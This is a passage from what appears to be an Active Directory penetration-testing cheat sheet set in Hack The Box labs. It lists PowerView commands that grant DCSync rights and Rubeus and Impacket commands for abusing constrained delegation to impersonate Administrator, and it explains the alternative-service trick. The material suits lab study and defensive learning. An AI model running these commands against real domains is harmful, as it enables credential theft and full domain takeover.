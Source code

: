 **With PowerView**:
```
whoami /all
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members svc-alfresco
net group "Exchange Windows Permissions" /add svc-alfresco
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity svc-alfresco -Rights DCSync
Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync
Get-DomainUser -Identity svc-alfresco
Get-ObjectAcl -DistinguishedName "DC=htb,DC=local" -ResolveGUIDs | Where-Object { $_.IdentityReference -match "svc-alfresco" }
```

## SYSVOL Group Policy Credential Mining
**[SYSVOL Group Policy Credential Mining](https://adsecurity.org/?p=2288)**

## Constrained Delegation
**[Constrained Delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation)**

```
Rubeus.exe dump /luci:0x599ac7 /service:CIFS/dc.painters.htb /nowrap /outfile [dump to kirbi files]
Rubeus.exe asktgt /user:blake /password:Password123! /domain:PAINTERS.HTB /dc:192.168.110.55 [request for TGT using credentials]
Rubeus.exe ptt /ticket:test.kirbi (import ticket)
Rubeus.exe tgtdeleg /user:blake /password:Password123! /domain:PAINTERS.HTB /target:CIFS/dc.painters.htb /nowrap (ticket delegation with TGT to obtain TGS of target service)
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:"CIFS/dc.painters.htb" /user:blake /ticket:test.kirbi /nowrap (Access to CIFS/dc.painters.htb)


**For Linux use:**
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py cifs.kirbi cifs.ccache
export KRB5CCNAME=cifs.ccache
sudo apt-get install krb5-user

OR

getST.py -spn "cifs/dc.painters.htb" -impersonate "administrator" "painters/blake:Password123\!" -dc-ip 192.168.110.55
```

**What if we have delegation rights for only a spesific SPN? (e.g TIME):**

In this case we can still abuse a feature of kerberos called "alternative service". This allows us to request TGS tickets for other "alternative" services and not only for the one we have rights for. Thats gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

**Additional Resources**
  - [Using altservice to generate LDAP TGS](https://medium.com/r3d-buck3t/attacking-kerberos-constrained-delegations-4a0eddc5bb13#3276)
